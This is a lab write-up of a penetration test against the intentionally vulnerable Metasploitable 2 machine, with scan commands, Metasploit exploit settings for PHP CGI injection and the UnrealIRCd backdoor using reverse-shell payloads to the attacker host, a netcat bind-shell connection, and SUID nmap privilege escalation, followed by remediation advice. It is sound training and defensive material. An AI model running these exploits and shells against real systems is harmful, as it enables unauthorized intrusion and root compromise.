

# Metasploitable 2 — Penetration Testing Home Lab

A full walkthrough of enumerating and exploiting the **Metasploitable 2** vulnerable machine from a **Kali Linux** attack box, taken from initial reconnaissance all the way to **root**. This write-up documents each step with the exact commands used and the resulting output.

> ⚠️ **Legal / ethical note:** All activity in this write-up was performed inside an **isolated VirtualBox host-only lab** against a machine I own, built specifically for security training. Metasploitable 2 is intentionally vulnerable and should **never** be exposed to an untrusted network. Do not use any of these techniques against systems you do not own or have explicit written permission to test.

---

## Table of Contents

1. [Lab Environment](#1-lab-environment)
2. [Reconnaissance](#2-reconnaissance)
   - [2.1 Host Discovery](#21-host-discovery)
   - [2.2 Full Port & Service Scan](#22-full-port--service-scan)
   - [2.3 OS Fingerprinting & SMB OS Discovery](#23-os-fingerprinting--smb-os-discovery)
3. [Enumeration](#3-enumeration)
   - [3.1 Web Directory Enumeration (http-enum)](#31-web-directory-enumeration-http-enum)
   - [3.2 CSRF Detection (http-csrf)](#32-csrf-detection-http-csrf)
   - [3.3 Web Vulnerability Scan (Nikto)](#33-web-vulnerability-scan-nikto)
   - [3.4 SMB / Samba Enumeration (enum4linux)](#34-smb--samba-enumeration-enum4linux)
   - [3.5 Null-Session RPC Enumeration (rpcclient)](#35-null-session-rpc-enumeration-rpcclient)
   - [3.6 Denial-of-Service Check (Slowloris)](#36-denial-of-service-check-slowloris)
4. [Credential Attacks](#4-credential-attacks)
   - [4.1 FTP Brute Force](#41-ftp-brute-force)
   - [4.2 MySQL Database Access](#42-mysql-database-access)
5. [Exploitation](#5-exploitation)
   - [5.1 PHP CGI Argument Injection — CVE-2012-1823](#51-php-cgi-argument-injection--cve-2012-1823)
   - [5.2 UnrealIRCd Backdoor — CVE-2010-2075](#52-unrealircd-backdoor--cve-2010-2075)
   - [5.3 Bind Shell Backdoor on Port 1524](#53-bind-shell-backdoor-on-port-1524)
6. [Privilege Escalation](#6-privilege-escalation)
   - [6.1 SUID Binary Enumeration](#61-suid-binary-enumeration)
   - [6.2 SUID nmap → root](#62-suid-nmap--root)
7. [Findings Summary](#7-findings-summary)
8. [Remediation](#8-remediation)
9. [Tools Used](#9-tools-used)

---

## 1. Lab Environment

| Role | Host | IP Address |
|------|------|-----------|
| Attacker | Kali Linux | `192.168.56.103` |
| Target | Metasploitable 2 | `192.168.56.104` |
| Network | VirtualBox Host-Only | `192.168.56.0/24` |

The target exposes a large attack surface — a deliberately vulnerable web stack (DVWA, Mutillidae, TWiki, phpMyAdmin, WebDAV) plus a long list of outdated network services. The screenshot below shows both the initial scan and the target's landing page.


*Network layout, initial `nmap` sweep, and the Metasploitable 2 web front-end served on port 80.*

---

## 2. Reconnaissance

### 2.1 Host Discovery

A ping sweep across the lab subnet confirms which hosts are live before any deeper scanning.

```bash
nmap -sn 192.168.56.0/24
```

The target `192.168.56.104` responds as up (Oracle VirtualBox virtual NIC).

### 2.2 Full Port & Service Scan

A full TCP port scan with version detection maps every listening service.

```bash
nmap -sV -p- 192.168.56.104
```


*Full `-p-` service scan. Every open port is fingerprinted with its running service and version.*

**Key services identified:**

| Port | Service | Version |
|------|---------|---------|
| 21 | FTP | vsftpd 2.3.4 |
| 22 | SSH | OpenSSH 4.7p1 |
| 23 | Telnet | Linux telnetd |
| 25 | SMTP | Postfix smtpd |
| 53 | DNS | ISC BIND 9.4.2 |
| 80 | HTTP | Apache httpd 2.2.8 (DAV/2) |
| 139/445 | SMB | Samba 3.x |
| 512/513/514 | r-services | rexec / rlogin / rsh |
| 1099 | Java RMI | GNU Classpath grmiregistry |
| 1524 | Bind shell | **Metasploitable root shell** |
| 2049 | NFS | RPC #100003 |
| 3306 | MySQL | 5.0.51a |
| 5432 | PostgreSQL | 8.3.x |
| 5900 | VNC | protocol 3.3 |
| 6667/6697 | IRC | UnrealIRCd |
| 8180 | HTTP | Apache Tomcat/Coyote 1.1 |

### 2.3 OS Fingerprinting & SMB OS Discovery

Combining OS detection with the `smb-os-discovery` NSE script confirms the kernel and Samba build.

```bash
sudo nmap -O --script smb-os-discovery 192.168.56.104
```


*OS detection reports **Linux 2.6.9 – 2.6.33**, and `smb-os-discovery` reveals the host as **Unix (Samba 3.0.20-Debian)**, hostname `metasploitable`.*

---

## 3. Enumeration

### 3.1 Web Directory Enumeration (http-enum)

The `http-enum` NSE script fingerprints common web application paths. Its documentation describes it as a Nikto-style directory enumerator with version detection built in.


*NSEDoc reference for the `http-enum` script.*

```bash
sudo nmap --script http-enum 192.168.56.104
```


*Port 80 exposes `/tikiwiki/`, `/phpMyAdmin/`, `/phpinfo.php`, `/test/`, and directory listings on `/doc/` and `/icons/`.*

The same scan also enumerates the **Tomcat** instance on port 8180, surfacing a large set of `/admin/` paths, the Tomcat `/manager/html` console, and FCKeditor file-upload endpoints.


*Tomcat admin/manager interfaces and file-upload paths discovered on port 8180.*

### 3.2 CSRF Detection (http-csrf)

```bash
sudo nmap -p80 --script http-csrf 192.168.56.104
```


*Possible CSRF vulnerabilities flagged in the **DVWA** login form, multiple **TWiki** pages, and a **Mutillidae** blog form.*

### 3.3 Web Vulnerability Scan (Nikto)

Nikto performs a broad web-server vulnerability scan and the output is saved to an HTML report.

```bash
nikto -h 192.168.56.104 -o report.html
```


*Nikto flags Apache 2.2.8 / PHP 5.2.4 as outdated, an active **HTTP TRACE** method (XST), directory indexing, exposed `phpinfo.php`, PHP "Easter eggs", and missing security headers. The findings are rendered in the accompanying `report.html`.*

### 3.4 SMB / Samba Enumeration (enum4linux)

`enum4linux` automates SMB enumeration — workgroup, sessions, users, shares, groups, and password policy.

```bash
enum4linux 192.168.56.104
```


*The server **allows sessions using a null username and password** — an anonymous (null) session. Workgroup is `WORKGROUP`; OS confirmed as Samba 3.0.20-Debian.*


*Full local user list recovered over SMB, including `msfadmin`, `user`, `root`, `tomcat55`, `postgres`, and `mysql`.*


*Share enumeration: the **`tmp` share maps and lists successfully**. Password policy shows **minimum length 5**, **complexity disabled**, and **no account lockout**.*


*Group enumeration and RID cycling recover the domain SID and the full account list.*

### 3.5 Null-Session RPC Enumeration (rpcclient)

The null session is confirmed manually with `rpcclient`, which allows direct queries against the RPC interface without credentials.

```bash
rpcclient -U "" 192.168.56.104
rpcclient $> enumdomusers
rpcclient $> queryuser msfadmin
```


*`enumdomusers` dumps every account and their RID; `queryuser msfadmin` returns detailed account metadata — all with **no authentication**.*

### 3.6 Denial-of-Service Check (Slowloris)

The `http-slowloris-check` script safely tests for the Slowloris DoS condition without actually taking the service down.


*NSEDoc reference: a "LIKELY VULNERABLE" result means the server is subject to a timeout-extension attack.*

```bash
sudo nmap -p80 --script=http-slowloris-check 192.168.56.104
```


*The Apache server is reported **LIKELY VULNERABLE** to Slowloris — **CVE-2007-6750**.*

---

## 4. Credential Attacks

### 4.1 FTP Brute Force

The `ftp-brute` NSE script performs password auditing against the FTP service.


*NSEDoc reference for the `ftp-brute` script.*

```bash
sudo nmap -p21 --script ftp-brute 192.168.56.104
```


*Brute forcing recovers valid credentials **`user:user`**. Logging in manually with `ftp` confirms access to `/home/user`, including the `.ssh` directory.*

### 4.2 MySQL Database Access

The MySQL service on port 3306 is reachable and the `owasp10` (Mutillidae) database can be read directly.

```sql
use owasp10;
show tables;
select * from accounts;
```


*The `accounts` table is dumped in full, exposing **16 usernames and passwords in cleartext**, including `admin:adminpass` (flagged `is_admin = TRUE`).*

---

## 5. Exploitation

### 5.1 PHP CGI Argument Injection — CVE-2012-1823

Metasploit is used to exploit the PHP CGI argument-injection flaw against the web server.

```
msfconsole -q
search cve-2012-1823
use 0
show options
```


*The `exploit/multi/http/php_cgi_arg_injection` module (rank: **excellent**) targets port 80 with a `php/meterpreter/reverse_tcp` payload.*

```
set lhost 192.168.56.103
set lport 5454
exploit
```


*The exploit lands a **Meterpreter session** and drops into `/var/www`.*


*Listing `/var/www` shows the full web-app tree. Dropping to a system shell confirms code execution as the **`www-data`** user.*

### 5.2 UnrealIRCd Backdoor — CVE-2010-2075

The IRC service on port 6667 runs a backdoored build of UnrealIRCd. First the service is fingerprinted:

```bash
sudo nmap -A -p 6667 192.168.56.104
```


*Port 6667 confirmed as **UnrealIRCd** (`irc.Metasploitable.LAN`).*

The corresponding Metasploit module is then configured:

```
search unrealircd
use 0
set rhosts 192.168.56.104
set payload cmd/unix/reverse
set lhost 192.168.56.103
set lport 3434
```


*The `exploit/unix/irc/unreal_ircd_3281_backdoor` module (rank: **excellent**) targets the UnrealIRCd 3.2.8.1 backdoor.*

```
run
```


*The automatic check confirms the target is vulnerable, the backdoor command executes, and a shell session opens as **root** — full unauthenticated remote code execution.*

### 5.3 Bind Shell Backdoor on Port 1524

Port 1524 is an intentional **root bind shell**. No exploit is required — connecting with `netcat` yields an immediate root prompt.

```bash
nc 192.168.56.104 1524
```


*Connecting to port 1524 drops straight into a **root shell** (`uid=0(root)`) with zero authentication.*

---

## 6. Privilege Escalation

Starting again from the `www-data` shell obtained via the PHP CGI exploit, the goal is to escalate to root.

```
search cve-2012-1823
use 0
show options
```


*The PHP CGI module is reconfigured to re-establish the `www-data` foothold.*

### 6.1 SUID Binary Enumeration

Once back on the box as `www-data`, a search for SUID binaries reveals misconfigured privileges.

```bash
find / -perm -u=s -type f 2>/dev/null
```


*Among the SUID binaries is **`/usr/bin/nmap`** — a classic privilege-escalation vector, since this build of nmap ships an interactive mode.*

### 6.2 SUID nmap → root

Because `nmap` is SUID and old enough to include interactive mode, it can spawn a shell that inherits root privileges. This technique is documented on **GTFOBins**.


*GTFOBins: nmap's interactive mode (versions 2.02–5.21) can execute shell commands.*

```bash
nmap --interactive
nmap> !sh
```


*Entering interactive mode and running `!sh` spawns a shell with **`euid=0(root)`** — privilege escalation from `www-data` to **root** complete.*

---

## 7. Findings Summary

| # | Finding | Service / Port | Reference | Severity |
|---|---------|----------------|-----------|----------|
| 1 | Unauthenticated root bind shell | 1524 | Intentional backdoor | 🔴 Critical |
| 2 | UnrealIRCd backdoor command execution | 6667 | CVE-2010-2075 | 🔴 Critical |
| 3 | PHP CGI argument injection (RCE) | 80 | CVE-2012-1823 | 🔴 Critical |
| 4 | Local privilege escalation via SUID nmap | Local | GTFOBins | 🟠 High |
| 5 | MySQL readable — cleartext credentials | 3306 | Weak/blank credentials | 🟠 High |
| 6 | Weak FTP credentials (`user:user`) | 21 | Weak credentials | 🟠 High |
| 7 | SMB null-session enumeration | 139/445 | Samba misconfiguration | 🟡 Medium |
| 8 | CSRF in web applications | 80 | DVWA / TWiki / Mutillidae | 🟡 Medium |
| 9 | Slowloris denial of service | 80 | CVE-2007-6750 | 🟡 Medium |
| 10 | Outdated software, TRACE, directory listing, info disclosure | 80 | Nikto findings | 🔵 Low / Info |

---

## 8. Remediation

- **Remove backdoors and unnecessary services.** The port 1524 bind shell, the r-services (512/513/514), Telnet, and legacy daemons should be removed entirely.
- **Patch or replace vulnerable software.** UnrealIRCd, the PHP CGI stack, Apache 2.2.8, and PHP 5.2.4 are years past end-of-life and must be upgraded.
- **Enforce strong authentication.** Set strong, unique passwords; enable password complexity and account lockout; never leave MySQL/FTP with weak or default credentials.
- **Disable SMB null sessions.** Restrict anonymous access in the Samba configuration (`restrict anonymous`, remove guest access).
- **Fix SUID misconfigurations.** Strip the SUID bit from binaries that don't require it — especially `nmap`.
- **Harden the web server.** Disable the HTTP TRACE method, remove `phpinfo.php` and directory listings, and add the missing security headers.
- **Encrypt stored credentials.** Never store application passwords in cleartext; use salted password hashing.

---

## 9. Tools Used

`nmap` · `enum4linux` · `rpcclient` · `nikto` · `ftp` · `mysql` · `netcat` · `Metasploit Framework` · **GTFOBins** (reference)

---

*Documented as part of a personal cybersecurity home lab. For educational use only.*
